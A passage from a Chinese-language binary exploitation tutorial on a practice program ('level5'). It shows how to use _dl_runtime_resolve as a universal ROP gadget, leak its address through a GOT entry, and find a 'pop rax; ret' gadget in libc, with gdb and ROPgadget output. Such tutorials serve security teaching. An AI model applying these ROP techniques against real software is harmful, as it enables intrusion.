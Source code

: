 ```
 0x7ffff7def242 <_dl_runtime_resolve+66>: movrdi,QWORD PTR [rsp+0x20]
 0x7ffff7def247 <_dl_runtime_resolve+71>: movrsi,QWORD PTR [rsp+0x18]
 0x7ffff7def24c <_dl_runtime_resolve+76>: movrdx,QWORD PTR [rsp+0x10]
 0x7ffff7def251 <_dl_runtime_resolve+81>: movrcx,QWORD PTR [rsp+0x8]
 0x7ffff7def256 <_dl_runtime_resolve+86>: movrax,QWORD PTR [rsp]
 0x7ffff7def25a <_dl_runtime_resolve+90>: add rsp,0x48
 0x7ffff7def25e <_dl_runtime_resolve+94>: jmp r11
```

从0x7ffff7def235开始，就是这个通用gadget的地址了。通过这个gadget我们可以控制rdi，rsi，rdx，rcx， r8，r9的值。但要注意的是`_dl_runtime_resolve()`在内存中的地址是随机的。所以我们需要先用information leak得到_dl_runtime_resolve()在内存中的地址。那么`_dl_runtime_resolve()`的地址被保存在了哪个固定的地址呢？

通过反编译level5程序我们可以看到write@plt()这个函数使用PLT [0] 去查找write函数在内存中的地址，函数jump过去的地址*0x600ff8其实就是`_dl_runtime_resolve()`在内存中的地址了。所以只要获取到0x600ff8这个地址保存的数据，就能够找到`_dl_runtime_resolve()`在内存中的地址：

```
 0000000000400420 <write@plt-0x10>:
   400420: ff 35 ca 0b 20 00 pushq 0x200bca(%rip) # 600ff0 <_GLOBAL_OFFSET_TABLE_+0x8>
   400426: ff 25 cc 0b 20 00 jmpq *0x200bcc(%rip) # 600ff8 <_GLOBAL_OFFSET_TABLE_+0x10>
   40042c: 0f 1f 40 00 nopl 0x0(%rax)

 gdb-peda$ x/x 0x600ff8
 0x600ff8 <_GLOBAL_OFFSET_TABLE_+16>: 0x00007ffff7def200

 gdb-peda$ x/21i 0x00007ffff7def200
    0x7ffff7def200 <_dl_runtime_resolve>: sub rsp,0x38
    0x7ffff7def204 <_dl_runtime_resolve+4>: mov QWORD PTR [rsp],rax
    0x7ffff7def208 <_dl_runtime_resolve+8>: mov QWORD PTR [rsp+0x8],rcx
    0x7ffff7def20d <_dl_runtime_resolve+13>: mov QWORD PTR 
 [rsp+0x10],rdx
 ….
```

另一个要注意的是，想要利用这个gadget，我们还需要控制rax的值，因为gadget是通过rax跳转的：

```
 0x7ffff7def235 <_dl_runtime_resolve+53>: mov r11,rax
 ……
 0x7ffff7def25e <_dl_runtime_resolve+94>: jmp r11

所以我们接下来用ROPgadget查找一下libc.so中控制rax的gadget：

 ROPgadget --binary libc.so.6 --only "pop|ret" | grep "rax"
 0x000000000001f076 : pop rax ; pop rbx ; pop rbp ; ret
 0x0000000000023950 : pop rax ; ret
 0x000000000019176e : pop rax ; ret 0xffed
 0x0000000000123504 : pop rax ; ret 0xfff0
```

0x0000000000023950刚好符合我们的要求。有了`pop rax`和`_dl_runtime_resolve`这两个gadgets，我们就可以很轻松的调用想要的调用的函数了。



#### ROP构造多次溢出
